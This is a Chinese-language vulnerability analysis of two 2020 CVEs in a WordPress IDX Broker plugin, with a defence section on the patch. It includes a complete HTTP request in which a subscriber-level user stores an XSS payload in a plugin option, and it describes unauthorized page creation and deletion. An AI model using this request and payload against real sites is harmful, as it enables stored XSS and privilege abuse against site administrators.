​	CVE-2020-11512分析

​	 首先看到在插件的目录plugins\idx-broker-platinum\idx\initiate-plugin.php文件下的277行的idx_update_recaptcha_key函数中接收了POST参数idx_recaptcha_site_key数据，在279行被update_option函数调用

​	注：在当前账户权限下，执行修改初始化信息只可以用这个验证，返回信息只有一个1，如果不是1说明修改失败 在在当前用户全下载通过Wordpress IMPress for IDX Broker可以越权操作IMPress for IDX  Brokerc插件的初始化信息，通过xss漏洞获取管理员敏感信息。

​	

​	下面我们看下update_option函数对该数据的操作，该函数是对wordpress中的options参数的进行更新数据，我们看到上面对options的传入参数为idx_recaptcha_site_key，即更新该参数的值
 

​	在390行我们看到执行了update参数，更新了数据库中的数据
 
 
 我们在update_option函数中调用了wp_protect_special_option对option参数名进行html过滤，却没有对value进行过滤，引发了xss漏洞
 

​	下面我们看下函数idx_update_recaptcha_key的调用位置，在initiate-plugin.php文件下的34行hook在wp_ajax_idx_update_recaptcha_key tag上，

​	
  我們在admin-ajax.php页面中159行中获取到action参数，使用is_user_logged_in判断了用户权限后，直接将action参数拼接到do_action函数中进行执行，而is_user_logged_in只是判断用户是否存在，没有进行权限判断。

​	

### 	CVE-2020-11512利用

​	通过user1用户（订阅者权限）发送数据包：

```

```

1. ​		POST /wordpress/wp-admin/admin-ajax.php HTTP/1.1
2. ​		Host: localhost
3. ​		User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
4. ​		Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
5. ​		Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
6. ​		Connection: close
7. ​		Cookie:  wordpress_bbfa5b726c6b7a9cf3cda9370be3ee91=user1%7C1591004988%7CPrKGAmfSsNxfsQ9QAGID3aK8sMmvLnJtimfdGugoqCN%7C2850d94c57420c45398bd86aa49445eb60914036c0482cd3ebc755de5a8b1239; wordpress_test_cookie=WP+Cookie+check;  wordpress_logged_in_bbfa5b726c6b7a9cf3cda9370be3ee91=user1%7C1591004988%7CPrKGAmfSsNxfsQ9QAGID3aK8sMmvLnJtimfdGugoqCN%7Cc1e4006d123d6f33199624e0a514319b21b93859faa5af2a60fc0ceda066fb73; wp-settings-time-2=1590832197
8. ​		Upgrade-Insecure-Requests: 1
9. ​		Content-Type: application/x-www-form-urlencoded
10. ​		Content-Length: 0
11. ​		 
12. ​		action=idx_update_recaptcha_key&idx_recaptcha_site_key=a22212322123"><svg onload=alert(/~xss~/)>'

​	

​	此时管理员对该插件进行设置操作：

​	

### 	CVE-2020-9514漏洞分析

​	 从\wp-content\plugins\idx-broker-platinum\idx\wrappers.php文件中idx_ajax_create_dynamic_page函数中202行看到函数通过post_title参数中获取到了title数据，211行获取到了wrapper_page_id参数，在214和215行更新了数据库，并在218行针对给定的id进行更新元字段。 

​	继续看236行的idx_ajax_delete_dynamic_page函数，接收到post参数wrapper_page_id，然后进行删除该数据操作

​	

​	我们找一下这两个函数的调用位置：

​	

​	好了，可以看到这两个函数全部挂钩在wp_ajax开头的钩子上，利用上面的越权操作即可操作

### 	CVE-2020-9514漏洞利用

​	首先添加一个Wrapper页面

​	

​	

​	下面使用user1用户进行create操作：

​	首先在页面中获取上面创建的id值：6

​	

​	操作如下：

​	

​	发现该页面数据已改变，并且由user1修改

​	

​	同样执行删除操作

​	

​	发现已经无了：

​	

## 	防御

​	通过查看对比补丁信息，新的版本使用current_user_can函数判断当前用户的权限，并验证nonce机制防御CSRF攻击。

​	

​	 